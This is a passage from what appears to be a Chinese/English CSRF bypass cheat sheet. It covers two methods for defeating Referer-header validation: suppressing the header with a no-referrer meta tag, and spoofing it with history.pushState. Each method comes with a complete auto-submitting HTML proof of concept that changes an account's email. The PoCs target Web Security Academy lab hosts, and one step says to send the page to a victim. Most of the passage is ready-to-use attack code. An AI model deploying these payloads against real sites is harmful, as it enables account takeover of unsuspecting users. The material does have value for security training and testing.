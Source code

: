 

## 绕过方法 - 5：完全删除 Referrer 标头或抑制它。

```
测试用例：CSRF，其中 Referer 验证依赖于是否存在标头。

1. 拦截请求并尝试将 referer 更改为其他域名。
2. 如果此操作无效，则必须隐藏 referer 标头。
3. 您可以使用 `<meta name="referrer" content="no-referrer">` 或任何其他技术。
4. 完成，使用该技术编写一个常规 POC。

CSRF POC 示例：

<!DOCTYPE html>
<html>
<!-- CSRF PoC - 由 Burp Suite i0 SecLab 插件生成 -->
<body>
<form method="POST" action="https://ac6d1fe21fb2a0c7809510e7001c006c.web-security-academy.net:443/my-account/change-email">
<input type="text" name="session" value="S4dyJbRWg1IqEpZlPkhICE5vJQhnv6ve">
<input type="text" name="email" value="hola@hola.com">
<meta name="referrer" content="no-referrer">
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```



## 绕过方法 - 6：在 Referer 头中尝试使用 Attacker.com 或类似的 Payload。（可以绕过 Referer 验证）



```
Test case: CSRF with broken Referer validation

1. Intercept the request and try changing referer to some other domain. (Check all cases how it is been verified)
2. Now Generate a normal POC and include any JavaScript in the script block to alter the URL and Referer
3. Done Send it to victim.

Example CSRF POC:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac761f621f79d75680e4054c00160033.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="session" value="rk13v2KYDFByO0OFL0xnHcnIVZbvAHNg">
		<input type="text" name="email" value="gg@gg.com">
		<input type="submit" value="Send">
	</form>
<script>
			history.pushState("", "", "/?ac761f621f79d75680e4054c00160033.web-security-academy.net")
      document.forms[0].submit();
    </script>
</body>
</html>
```